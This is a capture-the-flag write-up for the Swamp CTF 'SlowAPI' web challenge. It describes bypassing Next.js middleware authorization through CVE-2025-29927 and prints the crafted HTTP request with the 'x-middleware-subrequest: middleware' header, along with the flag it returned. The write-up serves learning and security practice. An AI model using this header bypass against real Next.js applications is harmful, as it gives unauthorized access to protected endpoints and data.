



# SlowAPI - Swamp CTF

## Category: Web Exploitation

### Description
The Gator Research Institute requested an application to be developed. To explore new technologies, I decided to base the implementation on Next.js. However, authentication has not yet been implemented, which may allow unauthorized access.

🔗 **Challenge URL:** [http://chals.swampctf.com:43611/](http://chals.swampctf.com:43611/)

### Analysis
Upon visiting the website, an interesting endpoint was discovered:  

```
http://chals.swampctf.com:43611/flag
```



Access to this endpoint was denied. Given the challenge description, it was suspected that the application used Next.js. Recent research revealed a Next.js vulnerability, **CVE-2025-29927**, which allows bypassing authorization checks by sending an HTTP request with the `x-middleware-subrequest` header.

### Exploitation
To successfully exploit this vulnerability, the actual API endpoint had to be identified. Using the browser's Developer Tools, the network requests were analyzed, revealing that the flag was located at:

```
/api/protected/flag
```



Using Burp Suite, an HTTP request was crafted to include the required header:

```
GET /api/protected/flag HTTP/1.1
Host: chals.swampctf.com:43611
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
x-middleware-subrequest: middleware
```

This bypassed the authorization check, returning the flag.

```
flag":"swampCTF{b3w4r3_th3_m1ddl3w4r3}
```


